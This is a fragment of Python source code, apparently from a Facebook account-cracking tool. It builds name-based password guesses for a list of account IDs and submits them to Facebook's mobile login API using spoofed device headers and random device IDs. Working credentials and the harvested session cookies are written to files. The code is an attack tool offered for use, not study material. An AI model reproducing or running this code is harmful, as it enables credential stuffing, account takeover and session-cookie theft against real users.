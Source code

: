 'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={ssbb};{ckkk}"
                    print(f"\r{R} [SSB-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/SSB_OK_ids_M1.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/SSB_iDs_COOKiEs_M1.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                     #print(f"\r{A} [SSB-CP] {sid} | {ps} {S}")
                     cps.append(sid)
                     open('/sdcard/SSB_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodA(sid, name, ps)
            
    def methodC(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[SSB] {loop} | M3 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildLSB(),